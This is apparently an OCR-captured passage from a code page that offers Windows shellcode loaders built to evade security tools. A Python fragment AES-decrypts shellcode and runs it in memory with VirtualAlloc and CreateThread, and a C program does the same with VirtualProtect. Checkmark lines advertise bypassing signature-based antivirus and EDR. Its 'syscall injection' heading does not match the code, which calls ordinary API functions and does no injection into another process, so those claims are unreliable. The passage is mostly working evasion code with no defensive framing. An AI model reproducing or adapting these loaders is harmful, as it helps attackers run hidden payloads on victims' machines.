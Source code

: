 ```python
# Encrypt it
encrypted_payload = encrypt_shellcode(shellcode)
print(f"Encrypted Payload: {encrypted_payload.decode()}")

# --- Decrypt & Inject ---
def decrypt_and_execute(encrypted_payload):
    encrypted_payload = base64.b64decode(encrypted_payload)
    cipher = AES.new(KEY, AES.MODE_CBC, IV)
    shellcode = cipher.decrypt(encrypted_payload)

    # Allocate memory for shellcode execution
    ptr = ctypes.windll.kernel32.VirtualAlloc(None, len(shellcode), 0x3000, 0x40)
    ctypes.windll.kernel32.RtlMoveMemory(ptr, shellcode, len(shellcode))

    # Execute payload
    th = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)
    ctypes.windll.kernel32.WaitForSingleObject(th, -1)

# Run
decrypt_and_execute(encrypted_payload)
```
✅ Bypasses signature-based AV
✅ Encrypts shellcode dynamically
✅ Injects payload directly into memory


---

2. Process Injection (Syscalls)

We’ll use syscalls to evade EDR hooks.

syscall_injection.c (Windows Process Injection)
```C
#include <windows.h>
#include <stdio.h>

unsigned char payload[] = { 0xfc, 0xe8, 0x89, 0x00, ... }; // Your shellcode

void inject() {
    void *exec_mem;
    DWORD oldprotect = 0;

    // Allocate memory for shellcode
    exec_mem = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memcpy(exec_mem, payload, sizeof(payload));

    // Change memory permissions to executable
    VirtualProtect(exec_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);

    // Create a new thread and execute
    HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
    WaitForSingleObject(th, INFINITE);
}

int main() {
    inject();
    return 0;
}
```
✅ No CreateRemoteThread() (avoids behavioral detection)
✅ No OpenProcess() (bypasses most EDRs)
